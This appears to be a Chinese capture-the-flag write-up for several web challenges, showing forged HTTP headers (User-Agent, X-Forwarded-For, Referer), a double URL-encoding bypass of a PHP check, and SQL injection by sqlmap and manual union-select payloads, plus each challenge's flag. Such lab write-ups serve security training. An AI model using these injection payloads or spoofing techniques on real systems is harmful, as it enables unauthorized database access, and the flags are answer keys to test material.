 ## 猫抓老鼠

检查请求头,发现 `content-row: MTU0Nzk5MTA1OQ==`
输入得到Flag: `KEY: #WWWnsf0cus_NET#`

## 头有点大

根据提示,抓包
伪造.NET 浏览器 国籍
修改为
```
GET /sHeader/ HTTP/1.1
Host: ctf5.shiyanbar.com
User-Agent: Mozilla/5.0 (Windows NT 6.1/.NET CLR 9.9; Win64; x64; rv:64.0) Gecko/20100101 IE
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-gb,en;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: Hm_lvt_34d6f7353ab0915a4c582e4516dffbc3=1546692582; Hm_cv_34d6f7353ab0915a4c582e4516dffbc3=1*visitor*185270%2CnickName%3Affdy; Hm_lpvt_34d6f7353ab0915a4c582e4516dffbc3=1547962050
Upgrade-Insecure-Requests: 1
```
GO,得到Flag: The key is:HTTpH34der

## 貌似有点难

查看代码,发现要将IP伪装为1.1.1.1
在伪造IP后响应中提示还要伪造跳转网页
抓包
伪造IP 跳转网页
修改为
```
GET /phpaudit/ HTTP/1.1
Host: ctf5.shiyanbar.com
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Forwarded-For: 1.1.1.1 ##IP
Referer: https://www.google.com  ##跳转网页
Connection: close
Cookie: Hm_lvt_34d6f7353ab0915a4c582e4516dffbc3=1546692582; Hm_cv_34d6f7353ab0915a4c582e4516dffbc3=1*visitor*185270%2CnickName%3Affdy; Hm_lpvt_34d6f7353ab0915a4c582e4516dffbc3=1547962050
Upgrade-Insecure-Requests: 1
```
得到Flag: Key is SimCTF{daima_shengji}

## PHP大法
进入链接,看见源码
```php
<?php
if(eregi("hackerDJ",$_GET[id])) { #比较id和字符,如果相等返回true
  echo("<p>not allowed!</p>");
  exit();
}

$_GET[id] = urldecode($_GET[id]); #对id进行url解密
if($_GET[id] == "hackerDJ") 如果id等于字符,得到Flag
{
  echo "<p>Access granted!</p>";
  echo "<p>flag: *****************} </p>";
}
?>


<br><br>
Can you authenticate to this website?
```
分析代码发现应对字符进行URL编码,但需要加密两次,因为浏览器会解密一次
网上的在线编码一般不会处理英文,用这个[网站](http://tool.bugku.com/safe/url.php)
GET 提交,得到 Flag: DUTCTF{PHP_is_the_best_program_language}

## 看起来有点简单!
Sql 注入题,直接用 Sqlmap 就能搞定

1. `--current-db` 发现库名为 my_db
2. `-D my_db --tables` 发现表名为 thiskey
3. `-D my_db -T thiskey --columns` 发现字段名为 k0y
4. `-D my_db -T thiskey -C k0y --dump` 得到Flag :  whatiMyD91dump

手工注入: 

1. `id=1'` 报错发现数据库类型为 MySQL 
2. `id=1 and 1=1` 与 `id=1 and 1=2` 回显不同,判断存在注入点
3. `id=1 order by 1` 3 的时候报错,说明字段数为 2
4. `id=1 union select 1,schema_name  from information_schema.schemata` 查询数据库名称发现 my_db 和 test 两个数据库
5. `id=1 union select 1,table_name from information_schema.tables where table_schema=my_db` 
6. `id=1 union select 1,column_name from information_schema.columns where table_schema='my_db'`
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE0Mjg4OTQ1MCwtOTE0ODc4MTAyLDE5MD
QxODAxLC0xODMzMjA4MzkyLDQzMDExMzI0NiwtMjYyMzQ2NzY4
LDc0MjYyMzk4MCwtMjkwMjc3NzU4LDE4MDAyNjI3NjMsLTgxNT
gwNTg3OCwxODcxODgwODE0LDQyMjk2ODEzLDQxMDc4NzQ2NSwt
MTIxNDQ1OTgwOF19
-->